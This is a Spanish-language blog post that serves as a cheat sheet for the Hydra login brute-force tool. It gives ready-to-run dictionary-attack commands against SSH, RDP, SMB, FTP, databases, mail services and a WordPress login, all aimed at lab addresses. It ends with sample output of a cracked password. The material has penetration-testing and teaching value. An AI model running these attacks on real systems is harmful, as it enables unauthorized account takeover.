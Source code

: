 ```yaml
---
date: 2022-05-29T23:08:12.000Z
layout: post
comments: true
title: Hydra
subtitle: 'Herramienta para romper contraseñas'
description: >-
image: >-
  http://imgfz.com/i/xoyNhEF.png
optimized_image: >-
  http://imgfz.com/i/xoyNhEF.png
category: ciberseguridad
tags:
  - Brute-Force
  - Fuerza-Bruta
  - contraseña
  - password
  - Diccionario
  - Wordlist
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta para romper inicios de sesión a través de ataques de fuerza bruta o de diccionario.

Admite: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP- Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT) , SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 y v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC y XMPP.

### Tabla de parámetros

| Parámetro | Utilidad |
| :--------: | :-------: |
| -P | Indica la ruta del diccionario de contraseñas. |
| -L | Indica la ruta del diccionario de usuarios. |
| -t | Hilos (1-64). |
| -s | Se selecciona el puerto del servicio en el caso de que no sea por defecto. |
| -f | Salir cuando se encuentren las credenciales de inicio de sesión/contraseña. |
| -vV | Verbose. |

### CouchDB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 5984 http-get /
```

### Docker Registry

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt  -P /usr/share/wordlists/password.lst 10.1.1.30 -s 5000 https-get /v2/
```

### Elasticsearch

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 9200 http-get /
```

### FTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 ftp
```

### HTTP-GET

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L username.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 http-get /admin
```

Para el caso de https, se debe reemplazar ```http-post``` por ```https-get```.


### HTTP-POST

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P password.lst 10.1.1.30 http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

Para el caso de https, se debe reemplazar ```http-post-form``` por ```https-post-form```.

### IMAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /path/to/passwords.txt -f 10.1.1.30 imap -V
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 10.1.1.30 imap -V
```

### LDAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 ldap2 -V -f
```

### MySQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L usernames.txt -P pass.txt 10.1.1.30 mysql
```

### POP3

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.1.1.30 pop3 -V
```

### PostgreSQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt 10.1.1.30 postgres
```

### RDP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

### Redis

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra –P passwords.txt redis://10.1.1.30:6379
```

### Rexec

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rexec://10.1.1.30 -v -V
```

### Rlogin

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rlogin://10.1.1.30 -v -V
```

### Rsh

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt rsh://10.1.1.30 -v -V
```

### RTSP


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt 10.1.1.30 rtsp
```

### SMB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

### SMTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P /usr/share/wordlists/wordlistsnmap.lst 10.1.1.30 smtp -V
```

### SNMP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P wordlist.txt -v 10.1.1.30 snmp
```

### SQL Server

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt –P passwords.txt 10.1.1.30 mssql
```

### SSH

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -P passwords.txt -t 1 -u 10.1.1.30 ssh
```

Al conocer el usuario:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -l user -P passwords.txt -t 1 10.1.1.30 ssh
```

Al conocer la contraseña:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -p password -t 1 -u 10.1.1.30 ssh
```

### Telnet

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 telnet
```

### VNC

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt -s 5432 10.1.1.30 vnc
```

### Nota

Para eliminar elementos repetidos de un diccionario se debe realizar lo siguiente:

```bash
┌─[root@kali]─[/hydra]
└──╼ cat wordlist.dic | sort | uniq > new_wordlist.txt
```

### Ejemplo en Wordpress


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
...
...
...
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "examples" - 5686 of 11452 [child 35] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "Examples" - 5687 of 11452 [child 50] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "exams" - 5688 of 11452 [child 8] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "excellent" - 5689 of 11452 [child 29] (0/0)
[80][http-post-form] host: 10.1.1.30   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```


